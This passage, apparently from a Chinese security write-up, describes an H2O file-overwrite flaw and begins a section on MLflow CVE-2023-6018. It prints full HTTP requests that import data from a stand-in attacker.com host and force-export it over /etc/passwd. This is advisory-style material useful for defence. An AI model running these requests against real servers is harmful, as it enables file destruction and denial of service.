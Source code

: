   
它包含一个可通过网络访问的 API 调用，该调用将文件保存到服务器的磁盘，并包括覆盖任意文件的能力。写入磁盘的数据采用 CSV 格式，可防止此攻击用于替换敏感的配置文件（如 SSH 密钥），但可能会覆盖服务器运行所需的系统文件，从而导致拒绝服务。  
```
GET /3/ImportFiles?path=http://attacker.com/somefile HTTP/1.1
Host: 127.0.0.1:54321
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://127.0.0.1:54321/flow/index.html
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```  
  
覆盖运行 h2o.init（） 的用户有权访问的任何任意文件：  
```
POST /3/Frames/someattackerimportedframename/export?path=/etc/passwd&force=true HTTP/1.1
Host: 127.0.0.1:54321
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://127.0.0.1:54321/flow/index.html
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Content-Length: 0
```  
  
攻击者可以控制的数据并不完全是任意的。h2o 将 CSV/XLS/etc 文件写入磁盘，因此攻击者数据用引号括起来，如果它们导出为 CSV，则以“C1”开头。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicKh7RGMGr4wnMVht8XZuovSlp4keZicKoFiapS62g0pUJx2vrGFSgLjrRibibzP340BfbxEueV88hghDQ/640?wx_fmt=png&from=appmsg "")  
  
  
**05**  
  
AI供应链漏洞（CVE-2023-6018）  
  
  
CVE-2023-6018，  
MLflow 是一个用于简化机器学习开发的平台，包括跟踪实验、打包代码 进入可重现的运行，并共享和部署模型。MLflow 提供了一组轻量级 API，这些 API 可以 无论您身在何处，都可以与任何现有的机器学习应用程序或库（TensorFlow、PyTorch、XGBoost 等）一起使用 目前运行 ML 代码（例如在笔记本、独立应用程序或云中）。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicKh7RGMGr4wnMVht8XZuovSNEkN1YA98ZgVtTcqzZCaegdpuricasiaKTUx86xkribWzKgGR5rsuAibsQ/640?wx_fmt=png&from=appmsg "")  
  
Web 服务器包括用于跟踪实验、将代码打包到可重现运行以及共享和部署模型的工具。可以使用以下命令运行它  
```
mlflow ui --host 127.0.0.1:5000
```  
  